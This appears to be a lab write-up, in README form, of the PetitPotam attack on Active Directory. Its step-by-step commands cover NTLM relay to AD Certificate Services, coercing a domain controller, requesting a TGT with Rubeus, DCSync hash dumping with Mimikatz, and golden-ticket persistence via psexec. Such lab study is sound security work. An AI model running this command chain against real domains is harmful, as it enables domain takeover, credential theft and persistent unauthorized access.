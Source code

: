 # Introduction
- The **PetitPotam attack** is a technique where we abuse the **printer bug** to make a **domain controller** authenticate to our **kali machine**.
- *Relaying the captured authentication* to the **web interface of AD Certificate services (ADCS)** allows us to get the **certificate of the domain controller's computer account**.
- *Having this certificate* can let us **request a TGT for the computer account**.
- *With a TGT of a Domain Controller's machine account,* we can abuse its **DCSync** right on the domain to retrieve **a full dump containing all domain users' NTLM hashes**.
- *Having all user hashes and using them with a simple Pass-the-Hash attack,* we can obtain **code execution as a Domain Admin**.
- **Persistence** can also be established with a **golden ticket** since the `krbtgt` account hash would be obtainable.

# Lab Setup and Conditions
## 1. DC.lab.local (192.168.126.129)
A Domain Controller with **Active Directory Certificate Services Web Enrollment** enabled

![Domain-Controllers](Domain-Controllers.jpg)

![AD-CS-Installed](AD-CS-Installed.jpg)

## 2. DC2.lab.local (192.168.126.130)
Another Domain Controller (*PrintSpooler Service must be running to quickly force authentication.*)

![Spooler-Running](Spooler-Running.jpg)

## 3. Kali Machine (192.168.126.132)
for triggering authentication and relaying to ADCS Web UI.

![kali-ip-config](kali-ip-config.jpg)

## 4. Windows Machine (192.168.126.128)
for requesting a TGT and doing the DCSync attack (it shouldn't be in the domain, but should have the DC as its DNS server).

![Windows-Attacker-ipconfig](Windows-Attacker-ipconfig.jpg)

## 5. normal user account (Lab\JohnSmith)
A regular domain user with no special privileges.

![John-Smith-User](John-Smith-User.jpg)


# Steps to Create
1. Set up NTLM Relay on our attacker host to forward authentication to ADCS Web UI
2. Use PetitPotam to force authentication from a domain controller back to the relaying kali machine
3. Recieve base64 certificate for the domain controller's computer account
4. use Rubeus.exe on the windows machine to request a TGT for that account using the certificate
5. *Having the TGT in memory,* use Mimikatz.exe to do a DCSync attack
6. Grab any domain admin's hash to have code execution
7. (Optional) create a golden ticket for persistence

# 1. Set up NTLM Relay on our attacker host to forward authentication to ADCS Web UI
`ntlmrelayx.py -t http://<CAServer>/certsrv/certfnsh.asp -smb2support --adcs --template DomainController`

![ntlm-relay-start](ntlm-relay-start.jpg)

# 2. Use PetitPotam to force authentication from a domain controller back to the relaying kali machine
`python3 PetitPotam.py -d <DOMAIN_FQDN> -u <USERNAME> -p <PASSWORD> <KALI> <TARGET_DC>`

![PetitPotam-Launched](PetitPotam-Launched.jpg)

# 3. Recieve base64 certificate for the domain controller's computer account

![got-dc2-cert](got-dc2-cert.jpg)

# 4. use Rubeus.exe on the windows machine to request a TGT for that account using the certificate

`.\Rubeus.exe asktgt /outfile:kirbi /dc:<DOMAINCONTROLLER> /domain:<DOMAIN_FQDN> /user:<CAPTURED_DC_COMPUTER_ACCOUNT_NAME> /ptt /certificate:<CAPTURED_BASE64_CERTIFICATE>`

![rubeus-command](rubeus-command.jpg)

![got-dc2-tgt](got-dc2-tgt.jpg)

# 5. *Having the TGT in memory,* use Mimikatz.exe to do a DCSync attack
`lsadump::dcsync /domain:<DOMAINFQDN> /user:<TARGET_USER>`

![dcsync-for-domain-admin-hash](dcsync-for-domain-admin-hash.jpg)

# 6. Grab any domain admin's hash to have code execution

![code-execution-as-administrator](code-execution-as-administrator.jpg)

# 7. (Optional) create a golden ticket for persistence
Domain SID Lookup: `lookupsid.py <DOMAIN_FQDN>/<USERNAME>@<DC_IP>`

![domain-sid-lookup](domain-sid-lookup.jpg)

Obtaining `krbtgt` hash: `lsadump::dcsync /domain:<DOMAIN_FQDN> /user:krbtgt`

![krbtgt-hash](krbtgt-hash.jpg)

Golden ticket creation: `ticketer.py -nthash <KRBTGT_HASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN_FQDN> <CAN_BE_NON_EXISTING_USERNAME>`

![golden-ticket-created](golden-ticket-created.jpg)

Exporting ticket to environment: `export KRB5CCNAME=/<CHOSEN_USERNAME>.ccache`

Command execution using ticket: `psexec.py <DOMAIN_FQDN>/<CHOSEN_USERNAME>@<DC_FQDN> -k -no-pass`

![golden-ticket-used](golden-ticket-used.jpg)